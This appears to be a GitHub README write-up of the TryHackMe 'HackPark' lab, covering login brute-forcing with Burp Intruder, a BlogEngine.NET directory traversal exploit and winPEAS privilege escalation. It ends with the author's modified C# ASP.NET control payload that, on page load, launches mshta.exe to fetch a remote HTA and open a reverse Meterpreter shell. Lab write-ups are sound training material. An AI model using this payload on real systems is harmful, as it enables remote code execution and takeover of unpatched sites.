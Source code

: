 
<a href="https://tryhackme.com/room/hackpark" target="_blank"><img src="./banner.png" width="700px" /></a>

## Background

This room challenges its mock attackers to exploit vulnerabilities in a web application. It mainly involves brute forcing an admin login panel and exploiting a path traversial bug in the CMS. Post-exploitation has the attacker use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to work out privesc vulnerabilities to get SYSTEM-level privileges on the target system.

writeups:

* https://infosecwriteups.com/tryhackme-writeup-hackpark-bd9c075c5262
* https://0x00sec.org/t/modified-cve-2019-6714-poc-to-execute-payload-via-mshta-exe/32728

### Materials

* [PostView.cs](./materials/PostViews.cs): this is a custom payload that I wrote when exploiting a directory traversial vulnerability in a .NET content management system.

## Takeaways

I already published a writeup, so will not go into detail in how I went about rooting the target system. However, there are some interesting things to note: 

* Reverse image searches can be useful in finding information about the organisation or target system.
* [Burp Suite](https://portswigger.net/burp)'s intruder feature can be used to brute force username/password combinations.
* Modifying C# _proof-of-concepts_ can be helpful in exploiting the system.

The following is source code of my modified version of a payload used in a path traversial attack allowing me to get a reverse Meterpreter shell:

```c#
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
        System.Diagnostics.Process payload = new System.Diagnostics.Process();
        payload.StartInfo.FileName = "mshta.exe";
        payload.StartInfo.Arguments = ""; // url to HTA with payload
        payload.StartInfo.UseShellExecute = true;
        payload.StartInfo.CreateNoWindow = true;
        payload.Start();
    }
    
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
/*
 * References
 * Cobb, D. (2019). BlogEngine.NET <= 3.3.6 Directory Traversal RCE. Exploit Database. Retrieved on Apr. 25, 2022 from: https://www.exploit-db.com/exploits/46353
 *
 */
``` 

